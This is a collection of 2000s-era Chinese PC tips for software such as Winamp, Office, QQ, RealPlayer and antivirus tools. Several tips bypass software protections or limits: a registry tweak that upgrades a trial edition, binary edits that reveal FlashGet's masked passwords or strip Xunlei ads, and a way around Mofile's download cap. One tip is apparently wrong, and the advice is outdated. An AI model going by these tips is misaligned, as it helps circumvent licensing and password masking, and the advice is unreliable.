在 Winamp 中播放 MP3 时，按住 Shift 键不放，再单击面板上的“停止”按钮，此时音乐不会立即停止，而是逐渐降低音量直至完全消失，特别适合一些需要音乐自然过滤的环境，如电台 DJ 等。

## 制作可以显示用户 IP 等信息的图片

在论坛上经常会看到可以显示 IP 的签名图片，知道它们是如何制作的吗？如果你是用在论坛签名，只要在签名中输入“[img]http://ip.hotik.com/sign.png[/img]”(不含引号)即可。如果是要嵌入到网页中，则使用代码“”即可。如果觉得上面生成的样式不好，那么可以打开 http://www.danasoft.com/customsig.php，一步一步申请一个特别的显示信息吧(注意不要使用中文)。

## 关闭 WPS 的自动备份功能

在使用 WPS 时，每次新建一个 WPS 文档之后，它都会自动产生一个扩展名为 BAK 的备份文件。怎样才能关闭它的自动备份功能呢？方法很简单：单击“工具→选项”菜单，在“系统”选项中将“保留备份文件(*.BAK)”选项取消，单击“确定”即可。如果是老版本，则单击“查看→辅助信息”菜单，在“综合设置”对话框中选择“系统”选项卡，将“保留备份文件(*.BAK)”选项取消即可。

## 为 QQ 添加网络电视

如果想在 QQ 上看电视，那么可以点击 QQ 面板左侧的“用户自定义面板”按钮，接着点击“收藏夹→设置→添加”，将“TV”填入“名称”栏，将“http://tv.mumayi.net/QQ”填入“链接”栏，然后点击“设为默认”，这样就可以在 QQ 上看到电视或收听广播了，速度非常很快。

## KV 进程让瑞星无法更新

最近，一些杀毒软件爱好者反映瑞星杀毒软件在线更新完毕后不能正常安装更新程序，而一般他们都是同时安装了江民和瑞星两款杀毒软件。当用瑞星做监控，江民做辅助查毒时，瑞星无法更新。经过测试，原来是受一个名为 KVSrvXP.exe 的系统进程影响。这个江民杀毒软件的进程无论怎么设置都会存在，但只要在“任务管理器”中把这个进程手动关闭，瑞星更新就会正常了。

## 快捷键令段落巧移位

## 使用 KV2005 工具栏快速查杀病毒

在 KV2005 安装完成后，每个窗口工具栏上都可以看到查毒、杀毒的工具按钮，点击它就能对当前文件夹里的文件进行检查，而无须开启 KV2005 杀毒软件。有了这样的功能，初学者再也不用惧怕病毒入侵，想对哪个文件进行查杀，随心所欲。

## 挽救受损的 PowerPoint 文件

出现 PowerPoint 打不开的原因很多，如果仅是最后一次保存后出现，则可能是里面个别幻灯片页面作怪，如果你也碰到类似情况可以试试下面方法。

首先用老版本 Office 软件打开损坏的文件，一般都能正常打开(因为老版本不支持新版本的很多动态效果，所以才有打开的可能)。打开后，另存为一个副本，再用原来版本的 Office 打开即可。还不行的话先将后面一半删除，保存前面一半，如整个 PPT 包含 20 张，就先保存前面 10 张，把后面 10 张删除，看看问题出在哪里。用这种方法将里面的幻灯片一个一个抽出后再用“插入 / 新幻灯片(文件)”来一张张导入。也可以同时打开两个文件，然后选中第二个文件里面的全部页面，复制后粘贴到第一个里面。至此，一个受损的课件就挽救回来了。

## 让公式现身

想必有很多朋友都想看看别人的 Excel 表格里使用了什么公式，以便学习。但 Excel 表格默认显示出来的都是计算结果，无法查看到公式。要想让 Excel 表格不显示计算结果，而是显示公式，我们可以单击菜单中的“工具→选项”，在“视图”标签页下选中“公式”即可。注意，此设置只对当前工作表有效，对其他工作表无效。另外，你也可以按快捷键 Ctrl+~ 来切换显示公式。

## 章首换页巧解决

许多办公人员在用 Word 编辑一些有章节划分的文档时，时常会碰到章首换页的情况，而大部分人多是采用不停按回车键的方法来实现换页的过程，其实这样做既麻烦又不科学，容易影响到版面的美观。可以用如下方法来解决：当编辑到需要换页的位置时，按住 Ctrl 键后再按下回车键，插入一个分页符，问题就自然解决了。

## 自己动手升级永中 Office2004 增强试用版

《电脑爱好者》2004 年下半年合订本中赠送的永中 Office 2004 默认是没办法升级为增强试用版的(可以从 http://www.evermoresw.com.cn 处下载升级补丁)，但我们可以使用下面的方法进行升级：打开“注册表编辑器”，选择菜单中的“编辑→查找”，搜索“eio_version”(不含引号)，然后将它的值修改为“00012144200”(不含引号)即可。

## 让永中 Office2004 退出时自动释放内存

永中 Office 在退出后，并没完全释放内存。这是该软件为方便用户下次快速启动所设计的功能。如果不想系统启动时就载入永中 Office 快速启动，可以右击系统工具栏永中 Office 快速启动图标，在弹出的菜单中去掉“系统启动时载入永中 Office”的勾选。如果不想运行永中 Office 快速启动功能，可以删除永中 Office 快速启动对应的文件，该文件默认保存在 C:\Program Files\Evermore\EIO\system\QuickStart.exe 下。

## 快速修改“千千静听”中的MP3标签

“千千静听”能够自动从网上下载播放的MP3音乐文件的歌词，极大地方便了用户使用。可是使用久了，笔者发现，明明一首很著名的歌曲，千千静听却“未能在服务器上找到歌词”，比如歌曲文件名为“刘德华-今天”。仔细研究一下发现原来是MP3文件标签搞的鬼，解决方法是：在歌曲播放列表窗口上右击此文件，选择“文件信息”，在对话框中点击“从文件名猜测标签”，然后选择歌曲文件名的样式，如%(Artist) -%(Title)，确定即可。同样利用此方法还可对更复杂的歌曲文件名进行智能标签分析，不妨一试。

## 巧杀U盘病毒

前几天闪存盘中毒，但是用杀毒软件杀毒后有个FOLDER.HTT文件就是杀不掉。每次插入闪存盘就会被杀毒软件提示有病毒，且屡次杀毒均告失败，而且也无法删除该文件。后来经过反复的测试，发现，原来每次插入闪存盘系统都自动执行了这个病毒文件，而杀毒软件的自动检测系统还没来得及阻止它，因此导致杀毒不彻底。于是，我在插闪存盘之前先按住Shift键，就像不让光盘自动运行一样，然后给闪存盘杀毒。此方法果然奏效，该文件被删除了，病毒彻底被清除了。更进一步，如果活动硬盘上有类似病毒，也可以用这样的方法清除。

## 阅读 Word 文档“不看多余的”

在 Word 2003 中浏览一篇多页的文档时，使用“页面”视图时，页间还包括段落中的一些灰色分隔区，现在我们可以使用下面的方法隐藏此区域：把鼠标指向页面的顶边或底边，指针变成双向箭头并且有“隐藏空白”的文字提示，此时单击即可。

## 对瑞星2005“精兵简政”

瑞星2005杀毒软件是目前应用很广泛的杀毒软件。安装并升级后，瑞星2005会占据80MB左右的硬盘空间。其实，我们可以删除瑞星2005一些不必要的文件，同时可以保持其基本功能不变：打开瑞星2005安装目录下的skin子目录，这里的skin1、skin2、skin3三个子目录，分别对应三种皮肤。如果在瑞星中的“设置→外观选择”菜单中选择了“传统情调”，则可全部删掉；打开安装目录下的language子目录，只保留以CHS为文件名的文件，以及ATip936.ini文件即可；删除升级文件备份目录Update文件夹；删除以RsAgent为文件名的文件，以及AgtX0804.exe、AgtX0404.exe、AgtX0411.exe，这样瑞星助手也让我们删除了；如果是Windows 9x等单用户系统，可删除RavXP.exe(系统多用户环境处理)、rssms.exe(瑞星短信通)、RegGuide.exe(瑞星注册向导)、RavHDBak(瑞星硬盘备份)等，最后“减肥”后的瑞星2005体积不足30MB。

## 选中页面文字下的图片

在WPS Office 2003中，当我们将一张图片作为页面背景设置后，如果想再选择此图片做修改时，却发现无论如何也不能选中图片了。其实很简单，这时只需按下Alt键不放，并用鼠标左键点击图片位置，就可轻而易举选中背景图片对象了。

## 自动更新媒体库

很多媒体播放器都有媒体库功能，但每次都要扫描后才可以更新，比较麻烦。其实在Windows Media Player 10中已经可以自动更新了：打开Windows Media Player 10，选择菜单中的“工具→选项”，打开“选项”窗口，点击“媒体库”标签下的“监视文件夹”，然后通过“添加”按钮来添加要监视的文件夹。

如果是RealPlayer 10，则可按以下方法打开自动更新：选择菜单中的“工具→首选项”，在窗口左侧选择“我的媒体库”，然后勾选窗口右侧的“每隔[ ]分钟检查受监视的文件夹是否有新剪辑”，再通过“添加文件夹”按钮添加好受监视的文件夹即可。

## 不用注册也能保存大头贴

网上有很多大头贴制软件，大多有无法保存的限制，怎么办呢？其实很简单：只要先用大头贴制作软件将大头贴照好，然后启动QQ，打开任意聊天窗口，用QQ的截屏功能(快捷键为Ctrl+ALT+A)，将拍摄好的大头贴截图，然后将它保存即可。

## 巧妙解决 PPT 调用文件时的链接错误

我们在使用PPT文件时经常要调用外部素材文件，比如视频文件等。但在刻录光盘时，并不能简单地将PPT文件和素材文件直接刻到光盘上。因为这样在播放视频文件时会出现不能播放的问题。我们可以采用下面的步骤解决：首先，选择菜单中的“文件→打包”，将PPT文件打包。然后运行打包生成的文件，把文件解包，再用Nero，将解包文件夹中的文件刻到光盘中即可。

如果是链接到外部的Word文档，仅仅使用上面的方法是不够的，正确的操作如下：先不要链接Word文档，而是直接选择菜单中的“文件→打包”，将PPT文件打包，然后再解包，接着将链接的Word文档拷贝至解包后产生的文件夹中，再打开PPT文件，设置Word文档的链接，注意此时链接的文档要使用拷贝至解包文件夹中的文件，最后，用Nero将解包文件夹中的文件刻录到光盘根目录中即可。

## 在 Excel 中控制指针方向

系统默认情况下，当我们在一个单元格中输入完数据后按回车键，单元格则会自动向下移动。如果想让指针向别的方向移动，可不可以呢？要达到这一目的，大家可以使用如下方法：点击菜单中的“工具→选项”，点击“编辑”标签，然后选中“按Enter后移动”一项，再在旁边的选择列表中选择你希望移动的方向，确定退出即可。

## 微软拼音改错技巧

在使用微软拼音时，如果输入了错字，不要急于修改，而是完成整句的输入，这样输入法会自动根据上下文进行调整，这样错误就会自动更正。而且在修改错误时，最好先回到句首，再修改。

## Flash 游戏巧闯关

时下用Flash做成的小游戏由于其制作精美，趣味性，加上小巧的体积，使得迅速在网络上传播，成为广大网友的休闲首选品。而最常见的就是一些找错误之类的过关游戏，只有满足一定过关条件后才能进入下一个关卡继续游戏，当然越往后越难。如果你闯关遇阻，我在这里给大家介绍一条闯关秘技：在游戏中单击鼠标右键，在弹出的Flash对话菜单中，选择“播放”，怎么样，是不是跳到下一关卡了？此法适用于大多数Flash游戏，希望能对大家闯关有所帮助。

## 《去除 Realsched.exe 进程何必舍近求远？》一文的补充

看到《电脑爱好者》2005年第7期中的《去除Realsched.exe进程何必舍近求远？》一文叙述，因为一直以来就对进程中的这个东西非常讨厌，很想把它消灭掉，于是就照作者所言进行了尝试。这篇文章中所提到的方法是：取消“自动服务”选项中的“监视文件夹”和“设备”两项的勾选即可，但是经过尝试，发现在某些RealPlayer版本中，单纯这样做是不能去除Realsched.exe进程的，正确的做法如下：首先，启动RealPlayer，单击“工具→首选项”，在“首选项”窗口，分别去掉“自动服务”中“监视文件夹”和“设备”两栏目中选项前的复选框，按“确定”。然后，在“首选项”窗口“自动服务”选项中的“Real消息中心”下点击“配置消息中心”按钮，在弹出的“消息中心”窗口中去掉所有选项的勾选，按“确定”。此时就会弹出提示框，“确定”即可。经过上述设置，就会完全去除Realsched.exe进程。

## 制作幻灯片自动播放光盘

如果将PowerPoint做的幻灯片刻录在光盘上并且能够自动运行，将是多么惬意。

首先将做好的幻灯片打包，选择菜单中的“文件→打包”，进入“打包向导”窗体，根据提示操作(注意：应将“包含链接文件”和“嵌入TrueType字体”两个选项全部勾选。建议加载PowerPoint播放器，以便在没有PowerPoint的电脑上演示幻灯片)。

然后，在打包的输出路径(在打包向导里设置)下找到打包好的文件pngsetup.exe，双击进行解包，得到解压后的ppview32.exe、name.pps等文件。接着在解包目录中用“记事本”建立一个autorun.inf文件，内容如下：

[AUTORUN]
OPEN=PPVIEW32.EXE NAME.PPS
ICON=PPT.ico

其中PPT.ico为用户自定义的图标文件，也需要拷贝至解包目录，最后将解包目录下的文件刻录到光盘根目录中即可。

## 打印千千静听歌词

许多人都将“千千静听”作为首选音乐播放器，主要原因无外乎它独到的“歌词秀”功能，可以自动从网上下载到正在播放的歌曲歌词。一次，单位举行文艺汇演，需要打印一些歌曲的歌词，用千千静听播放这些歌曲后，在“C:\Program Files\TTPlayer\Lyrics”目录下就可找到与歌曲同名的LRC文件，用“记事本”打开后就可打印这些歌词了。

## 在 RealPlayer 中方便的快进、快退

在RealPlayer中播放电影时，可以用相应的快捷键快速高效地控制电影的播放进程，以满足我们的播放要求。用“Ctrl+→”组合键能够平滑地控制快进，用“Ctrl+←”组合键能够平滑地控制快退，比直接用鼠标点击“快进”和“快退”键方便很多。

## 在千千静听中启用 DFX7.2

近来“千千静听”一路窜火，被称为音频播放器中的“瑞士军刀”。许多人都将自己的音频播放器换成了“千千静听”，但是千千静听播放的音质不够完美，如果能有插件增强它的音质会更好。其实，在千千静听中可以调用针对Winamp播放器的DFX音效增强插件，方法是右击“千千静听”，在主界面空白处选择“千千选项”，在弹出的对话框中选择“音效插件”标签，然后将“插件目录”改为DFX安装目录，再勾选下方出现的“DFX”选项，最后，点击“全部保存”即可。注意，DFX最新版7.2必须安装到Winamp目录下。

## 浮动广告的“定身术”

越来越多的网站喜欢在页面上加入浮动广告条。每进入一个网页，弹出的广告既影响网速又破坏了网页的整体感。这种广告一般有两种，一种是带有标题窗口的，这类广告。告只要单击右上角的“关闭”按钮，就可将其“消灭”。另一类是没有标题窗口的纯图片广告。这种广告最烦。网页翻到哪，它就跟到哪。有时在看新闻时，广告跟着你往下走，甚至正好挡住了所阅读的文字。真可谓“我的眼里只有你”。对付这种“网络牛皮癣”可用以下方法使其“定身”:在网页中单击鼠标中键，使鼠标指针变成上下翻页的形状。轻移鼠标使其偏离指针中心，网页便会根据“偏心距”来自动滚屏。此时会发现浮动广告被“定身”了。这下便可专心欣赏网页的精彩内容了。等看完内容后再单击鼠标即可。

（江苏 李庆）

## 让暴风影音静默安装

所谓静默安装就是指安装时不需要用户操作，直接按默认设置安装，对于无特殊要求的用户或是将暴风影音集成于Windows的安装光盘中时还是很有用的，下面就来介绍一些暴风影音的安装参数:/quickasso 表示安装后关联文件，不跳出选择框;/skipasso 表示安装完成后不关联文件;/skipcheck 表示安装时跳过对运行环境的检查;/1033 表示直接安装英文版;/2052 表示直接安装简体中文版;/skipcnnic 跳过CNNIC中文上网客户端的安装;/S 不显示用户界面，如无其他参数，则依系统默认的语言按照默认的设置安装默认的组件，此参数就是静默安装。比如，我们要使用完全静默安装的格式 (安装文件为 StormCodec.exe)，那么就使用 StormCodec.exe /S /quickasso /skipcnnic 即可。

（BCD）

## 赶走Excel中讨厌的超级链接

当在Excel的单元格中输入邮件地址或是网址链接时，Excel会自作主张将它变成一个超级链接，可是，如果想去掉超级链接该怎么做呢？你只需在建立超级链接后单击工具栏上的撤销按钮即可取消超级链接（或按Ctrl + Z）。如果在工作表中已经存在几个这样的超级链接，你可以采取键盘辅助定位的方式来选取单元格，取消超级链接。方法很简单，只要先用键盘或鼠标定位到待编辑单元格邻近的单元格，然后用箭头键移动到要编辑的单元格上，单击鼠标右键，在快捷菜单中选择“超级链接→取消超级链接”即可。

如果在工作表中存在大量超级链接，显然上述方法是不合适的。这样就需要宏命令的帮助。在Excel中按Alt + F8组合键打开宏对话框，在宏的名称中输入RemoveHyperlinks，点击“创建”按钮，在编辑器中，输入以下代码:

```
Sub RemoveHyperlinks()
Cells.Hyperlinks.Delete
End Sub
```

以后只要使用Alt + F8组合键，点击“执行”按钮，就可取消所有超级链接了。

（内蒙古 chenpengxiu）

## 在Word中输入特大字号

Word文档中字号默认设置最大是72磅，最小是5磅。要输入比它们更大或更小文字，可以选中要更改字号的文本，点击菜单“格式”中的“字体”项，直接在“字号”栏输入所需的磅值即可，磅值范围在1~1638之间，当然也可使用Ctrl + ]或Ctrl + [组合键来使字体增大或缩小，直至自己满意为止。

（武汉 王勇）

## 文字大小随表格自动调节

用Word制作出来的表格，可不可以让表格中的文字根据表格自身大小来自动调节字体大小以适应表格要求呢？要实现此功能很简单，单击菜单中的“表格”图表，选择“表格属性”，在出现的窗口中选择“单元格”，单击“选项”按钮，在单元格选项中选取“适应文字”一项即可。

（武汉 王勇）

## 让Excel文字自动换行

在Excel中，当输入的文本，长度超过单元格时，会显示到相邻单元格中去，可以用下面的方法解决:选择菜单中的“格式→单元格”，单击“对齐”标签，在“文本控制”中勾选“自动换行”，然后单击“确定”按钮。这样无论你的文本多长，它都不会占到其他单元格。

（内蒙古 chenpengxiu）

## 网络小说巧打印

对于经常看网络小说的朋友，有时想把整篇小说打印出来，可是一页一页的选择打印太过麻烦。其实打开“打印”窗口后，点击“选项”标签，然后选中“打印链接的所有文档”项即可打印整篇小说。当需要打印页面所有链接时，同样可以使用此方法。

（秦川小小牛）

## 去除迅雷的广告

相信有很多人用迅雷来进行下载，但里面的广告实在很烦人，不小心点中后，还会打开广告的链接。现在我们就来去除这个广告链接。用eXeScope(下载地址:http://nj.onlinedown.net/soft/9594.htm)打开迅雷的主程序Thunder.exe，依次展开“资源→对话框→102”，然后点击右侧的Static，去除“可见”项的勾选，同时勾选“禁用”项，保存后退出即可。

（喻林）

## 让FlashGet显示出明文密码

FlashGet中“站点资源探索器”的密码都是以 * 号显示的，如果想让它以明文显示，则需要使用eXeScope来解决:先用eXeScope打开FlashGet.exe，然后在窗口左侧依次展开“资源→对话框→128”，然后点击右侧“Dialog:128”下的“Edit”项，点击“编辑”选项卡下的“密码”即可。如果想让代理服务器地址以明文显示，则可使用展开“资源→对话框→149”，然后选择右侧“Dialog:149”下的“Edit”项，点击“编辑”选项卡下的“密码”即可。

## 当KUGOO不能搜索时

在使用KUGOO时，有时出现不能搜索的问题，这时，建议先卸载KUGOO，然后安装新版本，再用“记事本”打开C:\Windows\下的kugoooption.ini确认[filesearchserver]下ip=61.145.114.248和port=8900两项是否正确。

## 节日不能随便忘 让Outlook显示节日

在Outlook中点击“工具→选项”，在“首选参数”选项卡下单击“日历选项”按钮，在弹出窗口中单击“添加假日”按钮，在弹出的国家/地区列表中找到并勾选“中国”，返回Outlook主窗口，再单击左侧的“日历”，你会发现日期中已显示相应的节日。

## 让Adobe Reader记录上次阅读位置

经常使用Adobe Reader看资料，往往会忘记上次看到那里。其实只需点击菜单“编辑→首选项”，在弹出对话框左侧选择“启动”标签，在右侧的“重新打开文档到上次查看的页面”选项中，选择下拉菜单中的“所有文件”选项，然后“确定”即可。

（秦川小小牛）

## 让“千千静听”按类别播放

“千千静听”诸多实用功能着实让用户过瘾。但很多朋友会听很多不同类型的音乐，比如流行歌曲、古典歌曲等，如何让“千千静听”分门别类来播放呢？方法很简单:在播放列表窗口中任意空白位置右击，在弹出菜单中选择“新建列表”，输入相应音乐类别名称，然后将不同文件添加到其中即可。这样就能让“千千静听”按你的要求播放了；如果想让它在各列表中自动切换，点击“模式”按钮，勾选“自动切换列表”项即可。

（河北 李永杰）

## 快速将歌曲按专辑(歌手)分文件夹保存

我们从网上下载了很多MP3文件到同一文件夹中后，为了听起来方便，希望将它们按专辑分别归类至不同文件夹中，这时只要使用Foobar 2000(下载地址:http://nj.onlinedown.net/soft/39093.htm)就能轻松解决。首先，将所有MP3拖至Foobar 2000的列表中，然后在文件列表中右击，选择“批量标签→重命名文件”，在“输出文件名格式”中输入“%album%/%album%-%artist%-%tracknumber%-%title%”(不含引号)，最后勾选“根据\和/字符更新子目录”项。这样所有MP3都会以“专辑 - 艺术家 - 单轨 - 标题.mp3”进行命名，并且同一专辑的所有MP3文件都会保存到以专辑名称命名的文件夹中。如果希望将同一歌手的所有歌曲保存至相同目录，则可在“输出文件名格式”中输入“%artist%/%album% - %artist% - %tracknumber%-%title%”即可。

## 去除烦人的“脚本错误”

当你在浏览网站或使用程序时，经常会出现“脚本错误”的提示窗口，严重的还会造成网页无法访问，所以要关闭此窗口，方法如下:进入IE，点击菜单中的“工具→Internet选项”，去除“高级”选项卡下“禁止脚本调试”项的勾选即可。

## 让输入法不再随Word改变

默认时，在Office 2003所有组件中，只要一启动，就会打开默认的输入法，对于大部分人来说，这个功能完全没有必要，不仅影响相关组件的打开速度，而且根本用不着，下面就来关闭这个选项:打开Office 2003任意组件，如Word 2003，点击菜单中的“工具→选项”，在弹出窗口中点击“编辑”标签，最后，去除“输入法控制处于活动状态”的勾选即可。

## 没有RealPlayer也能看RM

从一台安装有RealPlayer的电脑上将C:\Program Files\Common Files\Real文件夹下的Codecs、Common和Plugins三个子目录复制到目标电脑的相同位置中，然后将C:\Windows\System32下的pncrt.dll复制到目标电脑上相同位置。最后在安装有RealPlayer的电脑上打开注册表，依次展开至[HKEY_CLASSES_ROOT\Software\RealNetworks\Preferences]，导出DT_Plugin、DT_Codecs、DT_Common三个子键，保存为REG文件，导入目标电脑的注册表中。这样就能在目标电脑中使用第三方播放软件播放Real文件了。

## 极点五笔兼职命令行

最新的极点五笔4.3版(下载地址:http://www.freeb.net)新增了命令行功能，使用这个功能可以直接输入设置好的命令就能打开指定程序或网页，比如:输入note直接打开记事本，输入cfan打开《电脑爱好者》网站。
- 第一步:右击窗口标题栏上的极点五笔工具条，选择“输入法设置”，在窗口左侧点击“高级设置”，然后勾选右侧的“启用命令直通车功能”。
- 第二步:右击窗口标题栏上的极点五笔工具条，选择“管理工具→用户码表”，打开用户码表窗口。
- 第三步:在窗口最后一行中添加“note $Xnotepad”(不含引号)，另起一行添加“cfan $Xhttp://www.cfan.com.cn”(不含引号)，再新起一行输入“myqq $Xc:\program$20files\tencent\QQ\qq.exe”(不含引号)。现在你输入note就会打开“记事本”，输入cfan就会打开http://www.cfan.com.cn，输入myqq就可以打开QQ。

小提示

## 切换TM得双倍网络硬盘

腾讯仅仅为QQ普通用户提供了16MB的网络硬盘，时间一长16MB就不够用了，要想升级自己的QQ网络硬盘还得用Q币来购买。是不是正在为自己的网络硬盘空间不够用而发愁？难道非得花宝贵的Q币不成？试试腾讯TM吧！需要注意的是必须使用最新版本3.0Build1115，下载页面为:http://im.qq.com/tm。用TM登录(你也可以在QQ中执行“一键切换到TM”)后再点击左侧的“网络硬盘”标签就可看到网络硬盘的容量已经提升为32MB，比起QQ的16MB空间爽多了。

## 巧用IE地址栏打开播放器

一般我们要打开播放软件都是直接运行程序，但如果你正在浏览网页，那就可以通过浏览器的地址栏来快速打开播放软件。在地址栏中输入“mms://”(不含引号)回车就会打开Windows Media Player，输入“rtsp://”(不含引号)回车就会打开RealPlayer，比原来快多了。

## 在Blog中显示所在城市的天气

常常看到朋友的Blog中有天气预报，我怎么能没有？编辑Blog的News栏的内容，再加入新浪的天气代码即可(将其中的城市名称改为你所在城市):

```
<center><iframe width=157 height=200 frameborder=0 scrolling=NO src=http://weather.news.sina.com.cn/cgi-bin/figureWeather/simpleSearch.cgi?city=上海></iframe></center>
```

## 换机后QQ也能断点续传

你有没有过这样的经历？在网吧和朋友用QQ传送文件，好不容易传了个大半却因为网吧打烊等原因而不得不悻悻而归！由于网吧的机器一般都安装有硬盘保护卡，所以即使在同一台机器上也无法断点续传。
在QQ文件传输栏中停止文件传送，打开QQ安装目录下的QQFileCache子目录，将其中的文件复制下来并保存在自己的邮箱或移动硬盘里(如果有多个文件，则选择文件大小与刚才已发送文件大小最接近的那个)。续传时只要把刚才保存的文件原封不动地拷贝到新机器的QQ安装目录下的QQFileCache子目录中，然后和朋友继续传送文件，QQ会提示你是否从上次停止的位置开始继续传送，确认后即可完成断点续传。

## 让你的电脑不再白白“熬夜”

在下载比较大的BT文件时，我们经常会选择彻夜挂机。可有时当我们第二天一早兴冲冲地跑去“收账”时，却发现早已没了种子，电脑白白熬了个通宵。如果你使用“比特精灵”，则可以解决这个问题：当添加新下载任务时，在弹出窗口中切换至“扩展”标签页，并在其中勾选“如果下载速度低于该值则停止任务”复选框，其右侧的参数保持默认设置“0”。而后，点击菜单栏“选项→个人设置”，在弹出窗口中查看“其他”标签页，勾选“当所有任务完成后自动关机”复选框。确认操作后，再点击菜单栏“选项→其他选项→杂项设置→用户关机提示”，并去除该复选框的勾选状态。如此设置后，当下载任务没有种子持续一段时间后(约1小时)，系统就将自动关机。

## 普通用户也玩网络收藏

QQ会员的网络收藏夹功能非常方便，可是非会员能否利用QQ方便地收藏网址呢？首先，我们的QQ必须是2004IIbeta2或以上版本的，否则不支持网络硬盘文件在线打开，这步很关键。然后在桌面上新建一个快捷方式，在弹出的快捷方式向导窗口中把要收藏的网址键入“请键入项目位置”旁的输入框内，并点击“下一步”完成。将QQ切换到“网络硬盘”面板，将桌面上的该快捷方式拖动到网络硬盘中。这样以后无论在何处登录QQ，在网络硬盘中双击该文件即可打开收藏的网址。

## 快速群发网络硬盘中的文件

在QQ2004II Beta2或以上的版本中，可以很方便地将网络硬盘中的文件通过邮件同时发送给多名好友。在网络硬盘中右键单击需要发送的文件，在弹出菜单中选择“邮件转发”，在“请输入好友QQ号码”下的输入框中键入好友们的QQ号(号码间用空格或分号隔开，也可通过右侧的“选择好友”按钮进行选择)，在中间的“给好友留言”填写发送文件时附带的留言，最后点击“确定”即可发送。

## QQ也玩自定义头像

QQ2004II Beta3支持自定义QQ头像了，只需要在“个人设置”中的头像选项中点击“更改”，选择“本地浏览”，然后挑选自己喜欢的图片就可以了。对于自定义图像，必须是QQ会员、三钻或等级在16级以上(包括16级)的用户才可以使用。

## 寻找遗失的Maxthon隐藏窗口

Maxthon最小化至系统托盘后，有时会出现系统托盘图标自动消失的情况；有时，将多个Maxthon程序进程全部隐藏(使用热键Alt + ~)后，利用热键却只能恢复一个Maxthon窗口。面对这一问题，仅凭Maxthon自身的功能是难以修复了。我们可以另辟蹊径使用“窗口隐藏器”将隐藏的Maxthon窗口重现(下载地址:http://nj.onlinedown.net/down/WndHider03.zip)。查看“系统所有隐藏的窗口列表”标签页并点击“刷新”按钮。然后在“窗口”列表中找到“Maxthon”项并选中，点击“显示”按钮即可看到隐藏的另一个Maxthon程序。如果当前还有其他隐藏的Maxthon进程，则重复此操作即可。

## 备份Maxthon快捷组

使用Maxthon快捷组可以一步打开多个网页，比使用IE收藏夹方便了许多。但重装操作系统或更换了电脑后自己Maxthon快捷组的设置信息就会丢失，实在令人头疼。其实这些快捷组信息都存放在Maxthon安装目录下的Groups文件夹下以快捷组名称命名的CGP文件中，备份这些CGP文件，当需要恢复时将它们复制回Groups文件夹便可。

## GOOGLE，我用中文的

很多朋友都遇到过在浏览器地址栏输入http://www.google.com后本应该转到中文Google站点，实际却转到其英文站点的问题，笔者发现只要你在浏览中文Google时点击主页下方的“Google.com in English”链接后，以后每次访问Google时都会直接指向英文站点，就会出现上面介绍的现象。解决方法就是在Google首页中点击“Preferences”，然后在“Display Google tips and messages”列表中选择“Chinese(Simplified)”。设置完毕再访问Google时就会自动链接到中文搜索页了。

## QQ程序巧下载

QQ版本更新很快，如果我们试用了最新版后觉得资源占用太大，某些功能不好用，想换回旧版本的话怎么办？一般情况下都是直接到各大站点或QQ主页去下载，寻找起来麻烦操作过程也比较复杂。其实可以在当前使用的QQ中切换至“网络硬盘”标签，然后选择“公共资源→腾讯软件”，这里罗列了QQ的各种版本，直接下载即可。

## 保存“不能保存”的网页

有时，大家在保存自己喜欢的网页过程中会出现“该页面不能保存”的提示，这是因为该页面使用了框架结构，所以在IE中不能保存。如果你使用Maxthon(MYIE2)，可以选择菜单“文件→快速保存”即可将这些网页保存到本地硬盘。

## 巧妙查看是否为对方QQ好友

在MSN中可以通过“工具→选项→隐私标签”查看对方是否把自己加为好友了。QQ默认没有提供这个功能，但用IE访问QQ秀页面(http://game.qq.com/qqshow)并以QQ账号登录，接着随便购买一件收费的QQ秀衣服并结账，在结账支付方式中选择“他人付帐”，在“他人付帐”弹出窗口中输入你想检测是否已加自己为好友的QQ号码，选择“提交”。如果出现“对不起，您必须是***的好友，才能向他索要QQShow商品”的提示，则说明对方没有加你为好友，或者曾经被加为好友但后来被删除了。如果出现索要信息发送成功的提示则说明你还在对方的好友列表中。

## 用QQ表情玩魔法秀

QQ新开放的“魔法秀”功能可以在QQ秀上呈现出动画效果，因此非常受大家欢迎。不过最近该功能不能免费使用了，当在魔法设置中选择“基本魔法”时会出现“对不起，您的魔法券已经过期。(购买魔法券)”，看来不花钱是没法再使用该功能了。其实可以通过某种方法将这些基本魔法添加到QQ表情中，这样等于换了一种方式玩魔法，效果也很不错。方法是将QQ安装目录中QQShowMagic目录下的所有GIF图片添加到QQ表情中即可在QQ中通过表情玩魔法了。值得注意的是该目录下文件名中包含“_s”的是静态图像，实际使用中只添加动态图像即可。

## 轻松提升论坛首页访问速度

论坛首页访问速度取决于很多因素，但和速度密切相关却又最容易让人忽视的却是不起眼的友情链接。如果你的论坛中添加的友情链接中的LOGO图片是来自其他网站的，那你的首页速度就会直接受到那个网站的图片访问速度的影响。因此只需将所有友情链接图片上传到论坛所在服务器上，就可以在一定程度上提高论坛首页访问速度。

## 避开Mofile下载次数的限制

时下流行网络硬盘，Mofile网站(http://www.mofile.com)是其中比较知名的一个。近日，笔者在该网站班组建的账户中下载一个RAR文件，却被告知：“该文件今日下载次数太多，请明日尝试”。笔者当时又急需查阅该文件，经过一番试验，终于找到解决办法，按照以下步骤可以避开下载次数的限制：登录后，进入“我的文档”，勾选要下载的文件，点击“移至接力站”将其移动至“接力站”中。在“接力站”中点击“文件提取”，输入提取码后系统就会生成一个下载地址，这样就可以下载了。该文件在接力站中会保存3天，3天后会自动删除。

## QQ也用免提信息

大家都知道手机有一种免提短信，可以在收到短信时无需按键，立即显示内容。其实QQ也有免提信息，对方QQ上线后第一眼就能看到该留言弹出，而不需要双击任务栏上的QQ图标。方法是这样的：在留言之前，先给对方发送一个视频聊天请求，然后再取消。之后再写上留言的文字就可以了。这样当对方启动QQ上线后，首先跳出来的是你刚才留言的窗口，窗口是自动跳出来的，而不是点任务栏图标打开的。

## 取消任务栏上的QQ图标

很多人都讨论过如何隐藏任务栏上的QQ图标，什么通过老板键、使用第三方软件，调节分辨率等方法。实际上当我们使用的是QQ 2004时只要到“系统设置→基本设置→窗口设置”，把“在任务栏显示图标”前的勾去掉即可。这样QQ图标就会从任务栏上消失了。

## 再谈一个网卡绑定多个IP地址

